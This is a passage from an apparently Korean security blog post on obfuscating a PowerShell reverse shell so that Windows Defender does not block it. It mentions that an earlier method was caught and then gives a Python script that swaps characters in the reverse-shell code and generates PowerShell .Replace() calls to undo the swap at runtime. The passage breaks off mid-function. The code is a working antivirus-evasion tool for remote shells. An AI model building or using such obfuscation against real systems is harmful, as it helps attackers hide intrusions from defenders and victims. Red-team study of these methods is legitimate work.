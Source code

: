 <br>

![image](/assets/posts/250902-11.png)

스크립트를 실행하면 위와 같이 난독화된 코드를 확인할 수 있다. 그러나, `.ps1` 파일은 정상적으로 생성되지만 실행 시에 Windows Defender에 의해 차단된다.

<br>
<br>

## Replace

PowerShell에서 제공하는 `.replace()` 메서드를 사용하여 특정 문자열을 다른 문자열로 대체하는 방식을 이용한 난독화 기법이다.

<br>

```python
# replace.py

import random
import string


def replace_obfuscation(revshell_code):

    revshell_code = revshell_code.replace('\n', '')
    revshell_code = revshell_code.replace('\r', '')
    revshell_code = revshell_code.replace("'", '"')

    printable = set(string.ascii_letters + string.digits + string.punctuation) - {'"', "'", '\\', '`'}
    used_chars = set(revshell_code)
    unused_chars_list = list(printable - used_chars)
    random.shuffle(unused_chars_list)
    replacement_map = {}

    for char in used_chars:
        if unused_chars_list:
            new_char = unused_chars_list.pop(0)
            replacement_map[char] = new_char

    obfuscated_code = revshell_code
    for original_char, new_char in replacement_map.items():
        obfuscated_code = obfuscated_code.replace(original_char, new_char)

    restore_map = {new_char: original_char for original_char, new_char in replacement_map.items()}

    restore_commands = []
    for obfuscated_char, original_char in restore_map.items():
        restore_commands.append(f"$str=$str.Replace('{obfuscated_char}','{original_char}')")

    final_obfuscated_code = f"$str='{obfuscated_code}';"
    for cmd in restore_commands:
```